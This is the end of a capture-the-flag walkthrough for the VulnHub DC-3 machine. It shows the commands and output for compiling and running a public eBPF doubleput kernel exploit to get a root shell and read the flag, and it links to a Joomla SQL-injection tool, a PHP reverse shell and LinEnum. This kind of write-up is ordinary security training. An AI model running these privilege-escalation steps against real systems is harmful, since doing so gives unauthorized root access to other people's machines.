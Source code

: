 ```
$ cd 39772

$ tar -xvf exploit.tar
  ebpf_mapfd_doubleput_exploit/
  ebpf_mapfd_doubleput_exploit/hello.c
  ebpf_mapfd_doubleput_exploit/suidhelper.c
  ebpf_mapfd_doubleput_exploit/compile.sh
  ebpf_mapfd_doubleput_exploit/doubleput.c
  
$ cd ebpf_mapfd_doubleput_exploit

$ ./compile.sh
./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^

$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...

root@DC-3:/tmp/39772/ebpf_mapfd_doubleput_exploit# cd /root

root@DC-3:/root# ls -la
total 32
drwx------  2 root root 4096 Mar 26 15:48 .
drwxr-xr-x 22 root root 4096 Mar 23 19:16 ..
-rw-------  1 root root   67 Mar 26 15:48 .bash_history
-rw-r--r--  1 root root 3106 Oct 23  2015 .bashrc
-rw-------  1 root root   71 Mar 23 19:31 .mysql_history
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-------  1 root root 2889 Mar 26 15:41 .viminfo
-rw-r--r--  1 root root  604 Mar 26 15:41 the-flag.txt

root@DC-3:/root# cat the-flag.txt
__        __   _ _   ____                   _ _ _ _
\ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
 \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
  \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
   \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)

Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7
```


[DCAU]:                         https://twitter.com/DCAU7
[Joomla - Homepage]:            /images/posts/2019-07-15-vulnhub-dc_3/Joomla%20-%20Homepage.png
[joomblah.py]:                  https://github.com/XiphosResearch/exploits/tree/master/Joomblah
[Joomla - Admin]:               /images/posts/2019-07-15-vulnhub-dc_3/Joomla%20-%20Admin.png
[pentestmonkey]:                http://pentestmonkey.net/
[PHP Reverse Shell]:            http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[Joomla - PHP Reverse Shell]:   /images/posts/2019-07-15-vulnhub-dc_3/Joomla%20-%20PHP%20Reverse%20Shell.png
[LinEnum]:                      https://github.com/rebootuser/LinEnum
[Exploit-DB]:                   https://www.exploit-db.com/exploits/39772